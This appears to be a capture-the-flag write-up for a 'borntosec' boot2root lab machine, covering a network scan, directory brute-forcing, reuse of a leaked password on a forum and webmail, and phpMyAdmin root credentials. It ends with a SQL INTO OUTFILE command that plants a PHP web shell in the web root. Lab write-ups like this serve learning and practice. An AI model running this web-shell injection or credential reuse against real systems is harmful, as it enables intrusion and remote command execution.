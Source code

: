 ## nmap
scan the network 10.11.0.0/16
```
Nmap scan report for 10.11.100.94
Host is up (0.0013s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

## dirb 

DIRB IS a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary basesd attack against a web server and analizing the response.
![ alt text for screen readers](imgs/dirb_scanHTTP.png "dirb_scanHTTP")
![ alt text for screen readers](imgs/dirb_scanHTTPS.png "dirb_scanHTTP")

## 
from threats posted on the forum i found an intersting one "login problem"
reading the logs , a line says: 'Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2'
    - sounds like someone write a password in username field.
    - tried to connect using ssh users form forum and this password (didn't work)
    - tried to log in to forum with:
    ```
    username: lmezard
    password: !q\]Ej?*5K5cy*AJ
    ```
    - it works , i also got the email from the user profile
    email: laurie@borntosec.net

### The same password was used to log in to webmail
    user: laurie@borntosec.net
    password: !q\]Ej?*5K5cy*AJ

+ on the inbox i there's a mail contain credential to a databases 
![ alt text for screen readers](imgs/db_access.png "db credentials")

## access phpMyAdmin

login: root

password: Fg-'kKXBj87E:aJ$

## inject a webshell in sql 
ressource: https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/pyload.php"


